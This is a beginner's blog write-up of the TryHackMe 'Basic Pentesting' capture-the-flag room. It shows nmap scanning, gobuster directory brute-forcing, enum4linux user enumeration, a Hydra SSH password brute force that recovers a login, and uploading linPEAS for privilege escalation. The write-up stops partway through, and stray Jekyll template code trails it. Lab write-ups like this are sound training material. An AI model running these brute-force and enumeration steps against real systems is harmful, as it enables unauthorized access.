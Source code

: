 ```yaml
---
layout: post
title:  "TryHackMe: Basic Pentesting"
date:   2025-03-08 17:33:44 -0300
categories: TryHackMe, CTF
tags: nmap, gobuster, enum4linux, hydra, john_the_ripper, ssh,
author: yaza
description: My first CTF, Basic Pentesting was a straightforward room...
media_subpath:
image:
  path: /99c72676aab814b94e3bc350ba627b71.png
  alt: heyooo
---
```


Room Link: https://tryhackme.com/room/basicpentestingjt

It's my first challenge, lets do it!
I'm following the video and pausing trying to solve my way.

Ok, im stucked I dont know how to connect the attacker's machine to the target's machine
Target's IP: `10.10.126.255`
Oh I don't need to connect to the attacker's machine yet, I just need to run nmap 
```shell
root@ip-10-10-192-252:~/Desktop# nmap -sC -sV -oN nmap/initial 10.10.126.255

```
Ports open:
```
22
80
139
445
8009
8080
```
There's a web site running on port 80, lets see whats there!
Oh, how to access a web-site by the terminal? I've it noted somewhere, can't find... maybe its wget? It's not!! Should be `curl` (I wont seach on Internet, only using my notes.) Worked. ez.
```shell
root@ip-10-10-192-252:~/Desktop# curl 10.10.126.255
<html>

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->


</html>

```
(btw, wget worked followed by a `cat`, but i didnt want to download it)

Following the video, it says to use gobuster to bruteforce the directorys. Ok but I don't have the wordlist...

==Gobuster is an aggressive scan. Its noisy and is noticed. Only use against systems you have permissions to scan against==

Ok I'll need to Internet (Grok) now...[GoBuster Tutorial](https://hackertarget.com/gobuster-tutorial/)
[WordList](https://github.com/danielmiessler/SecLists)
GUESS WHAT!? The THM machine already had a worldlist, I just looked around the CLI, changing directories... and found a lot of worldlists.

```shell
root@ip-10-10-192-252:~/Desktop/Tools/wordlists# ls
dirb       fasttrack.txt   PythonForPentesters  SecLists
dirbuster  MetasploitRoom  rockyou.txt
```
Found the same wordlist as used in the video...

`directory-list-2.3-medium.txt`

```
root@ip-10-10-192-252:~/Desktop# gobuster dir -w /root/Desktop/Tools/wordlists/SecLists//Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.126.255
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 320] [--> http://10.10.126.255/development/]
/server-status        (Status: 403) [Size: 301]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
```

Stucked on how to linux enumeration, clicked on Hint and got to use "SMB", lets find it!
Command not found.
Internet time, found it: [How to Enumerate SMB with Enum4linux & Smbclient](https://null-byte.wonderhowto.com/how-to/enumerate-smb-with-enum4linux-smbclient-0198049/)
Discovered some stuffs, SMB is a protocol and Unix systems use SMB through Samba!
I saw Samba is running but didnt know what was that, now I have a clue!
SMB usually works on ports: 139 and 445, we have both oppened!

"Enum4linux is a tool used to enumerate SMB shares on both Windows and Linux systems."


```
root@ip-10-10-192-252:~/Desktop/Tools# enum4linux -U 10.10.126.255
```

Did not return useful information, so lets try:
```shell
root@ip-10-10-192-252:~/Desktop/Tools# enum4linux -a 10.10.126.255

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)


```

Here we go!

```shell
root@ip-10-10-192-252:~/Desktop/Tools# hydra -l jan -P /root/Desktop/Tools/wordlists/rockyou.txt ssh://10.10.126.255
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-07 18:00:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.126.255:22/
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 14344222 to do in 1358:22h, 16 active
[STATUS] 133.00 tries/min, 399 tries in 00:03h, 14343999 to do in 1797:30h, 16 active
[22][ssh] host: 10.10.126.255   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found

```
`jan:armando`
Now I logged in the ssh, used `cd ..` and access kay directory but access denied to `cat` the files.
So I need to escalate privilege.
https://github.com/Keartland/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/README.md

Oh, forget the THM machine doesnt have Internet connection, so I looked back at the folders and found: `/root/Desktop/Additional Tools/PEAS/linPEAS/linpeas.sh`
Let's follow the video and pass this file to Jan's directory using scp.
`scp /root/Desktop/Additional Tools/PEAS/linPEAS/linpeas.sh jan@10.10.126.255:/dev/shm`
shm = shared memory

`jan@basic2:/dev/shm$ chmod +x linpeas.sh`
`jan@basic2:/dev/shm$ ./linpeas.sh | tee linlog.txt`

less -r /dev/shm/linpeas.txt read with colors


Ok, the file doesnt look completed and I cant go up to see all the content. Actually the 'cat linlog.txt' may seen not working, some mad stuff happened! The Terminal got craaazzzzy after I tried to use `less` and `cat` and `more` to read the full file o.O :


![alt text](99c72676aab814b94e3bc350ba627b71.png)

{% highlight ruby %}
def print_hi(name)
  puts "Hi, #{name}"
end
print_hi('Tom')
#=> prints 'Hi, Tom' to STDOUT.
{% endhighlight %}